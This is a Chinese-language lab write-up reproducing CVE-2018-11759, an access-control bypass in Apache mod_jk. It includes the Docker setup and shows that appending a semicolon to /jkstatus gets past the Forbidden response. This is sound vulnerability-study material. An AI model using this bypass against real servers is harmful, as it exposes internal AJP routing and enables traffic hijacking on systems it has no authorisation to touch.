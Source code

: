 # Apache Mod_jk 访问控制权限绕过 CVE-2018-11759

## 漏洞描述

Apache Tomcat JK（mod_jk）Connector是美国阿帕奇（Apache）软件基金会的一款为Apache或IIS提供连接后台Tomcat的模块，用以为Apache或IIS服务器提供处理JSP/Servlet的能力。

由于httpd和Tomcat在路径处理规范上存在差异，因此可以绕过Apache mod_jk Connector 1.2.0版本到1.2.44版本上由JkMount httpd指令所定义端点的访问控制限制。
如果一个只有只读权限的jkstatus的接口可以访问的话，那么就有可能能够公开由mod_jk模块给AJP提供服务的内部路由。
如果一个具有读写权限的jkstatus接口可供访问，我们就能通过修改AJP的配置文件中相关配置来劫持或者截断所有经过mod_jk的流量，又或者进行内部的端口扫描。

## 影响版本

> [!NOTE]
>
> Apache Mod_jk Connector 1.2.0 ~ 1.2.44

## 环境搭建

```
git clone https://github.com/immunIT/CVE-2018-11759.git
docker-conpose up -d
```

访问 http://xxx.xxx.xxx.xxx:80 成功即可

![](image/mod-1.png)

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/jkstatus 显示无权限访问

```
Forbidden
You don't have permission to access /jkstatus on this server.
```

![](image/mod-2.png)

访问  http://xxx.xxx.xxx.xxx/jkstatus; 即可绕过

> [!NOTE]
>
> 注意是在url后面加上了一个;

![](image/mod-3.png)

